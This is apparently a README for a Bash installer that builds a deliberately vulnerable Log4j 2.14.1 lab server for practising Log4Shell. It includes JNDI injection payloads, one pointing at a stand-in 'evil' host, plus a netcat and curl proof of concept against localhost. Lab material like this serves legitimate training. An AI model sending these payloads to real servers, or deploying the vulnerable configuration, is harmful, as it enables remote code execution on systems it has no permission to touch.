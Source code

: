 # Log4Shell-Lab Installer 

A single Bash script that builds a **deliberately vulnerable Log4j 2.14.1 server**, hides it behind either **Apache httpd** (default) or **nginx**, registers everything as systemd units, and logs every step to `/var/log/log4shell-installer.log`.



---

## Features
| Item | Details |
|------|---------|
| **Distro-aware** | Debian/Ubuntu, RHEL/CentOS/Fedora/Alma/Rocky/Amazon, openSUSE Leap/Tumbleweed/SLE |
| **Pick your proxy** | `./lab.sh` → Apache httpd → 80 → 8080  •  `./lab.sh nginx` → nginx → 80 → 8080 |
| **Verbose logging** | All stdout/err piped to `/var/log/log4shell-installer.log` plus pretty timestamps |
| **DEBUG flag** | `DEBUG=1 ./lab.sh` adds `set -x` shell trace |
| **Systemd integration** | `vuln-log4j.service` auto-enabled, restarts on failure |
| **Auto-fetch jars** | Downloads Log4j API + Core 2.14.1 into `/opt/log4shell-lab/lib` |

---


System files:

* `/etc/systemd/system/vuln-log4j.service`
* `/etc/{apache2|httpd|nginx}/.../log4shell.conf`
* `/var/log/log4shell-installer.log`  ← complete install transcript

---

## Prerequisites

* Root privileges (`sudo`)
* Outbound HTTPS to Maven Central
* Ports **80** and **8080** free (unless you tweak)

---

## Quick start

```bash
chmod +x lab.sh
sudo ./lab.sh            # Apache reverse-proxy
# OR
sudo ./lab.sh nginx      # nginx reverse-proxy

```

## Output ends with:
```bash
Ready →  http://localhost/?msg=${jndi:ldap://evil/x}
Backend logs → journalctl -u vuln-log4j -f

```
## POC exploit
```bash
# 1 – start a dummy LDAP listener
sudo nc -lvkp 1389 -n

# 2 – trigger the JNDI injection
curl 'http://localhost/?msg=${jndi:ldap://127.0.0.1:1389/pwn}'

# 3 – netcat window should show an inbound LDAP request
Backend log (journalctl -u vuln-log4j -f) will print:
ERROR VulnerableHTTPServer - CLIENT INPUT: msg=$jndi:ldap://127.0.0.1:1389/pwn
```

# Tear-Down

# Stop and disable services
`sudo systemctl disable --now vuln-log4j.service nginx apache2 httpd 2>/dev/null || true`

# Remove lab files and systemd unit

- `sudo rm -rf /opt/log4shell-lab`
- `sudo rm -f  /etc/systemd/system/vuln-log4j.service`
- `sudo systemctl daemon-reload`

# Delete proxy snippets
- `sudo rm -f /etc/nginx/conf.d/log4shell.conf`
- `sudo rm -f /etc/apache2/conf-available/log4shell.conf`
- `sudo rm -f /etc/httpd/conf.d/log4shell.conf`

# (Optional) purge packages – Debian/Ubuntu example
- `sudo apt-get -y purge nginx\* apache2\* openjdk-17-jdk net-tools lsof`
- `sudo apt-get -y autoremove --purge`



